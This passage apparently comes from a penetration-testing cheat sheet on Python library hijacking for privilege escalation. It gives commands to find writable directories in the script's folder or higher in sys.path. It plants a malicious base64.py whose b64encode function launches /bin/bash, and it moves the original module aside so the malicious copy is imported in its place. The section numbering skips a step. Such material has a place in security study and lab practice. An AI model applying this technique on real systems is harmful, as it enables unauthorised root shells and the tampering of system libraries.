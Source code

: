   
  ### 4. If Not Writable: Check for Write Access to the Script’s Directory
  Python will **import local files before system libraries**.
  If the script is in `/home/batman/script.py`:
  
  ```bash
  ls -l /home/batman
  ```
  
  If writable, create a malicious module in the same directory:

  `nano base64.py`
  
  ```python
  # /home/batman/base64.py
  def b64encode(a):
      import os
      os.system("/bin/bash")
  ```
    
  
  ### 5. Inspect Python’s Module Priority Search Order
  
  We can see the priority order (sys.path) by running:
  
  ```bash
  python3 -c 'import sys; print("\n".join(sys.path))'
  ```

  
  Then we check for Writable Directories Higher in the Import Priority
  
  We need to remember the localtion of the regit module, e.g.: if `base64.py` is in `/usr/lib/python3.7/` and `/usr/local/lib/python3.7/` is higher, we check if writeable:
  
  ```bash
  ls -ld /usr/local/lib/python3.7/
  ```
  
  If writable, we place the malicious module there:
  
  ```python
  # /usr/local/lib/python3.7/base64.py
  def b64encode(a):
      import os
      os.system("/bin/bash")
  ```
  
  ### 7. Moving the Original and Replacing It in a Higher Path
  
  This is only possible if we have full write access. Move the original module to a lower-priority path and place our malicious version in a higher-priority one:
  
  ```bash
  mv /usr/lib/python3.7/base64.py /usr/lib/python3.7/lib-old/
  nano /usr/lib/python3.7/base64.py  # your malicious version
  ```
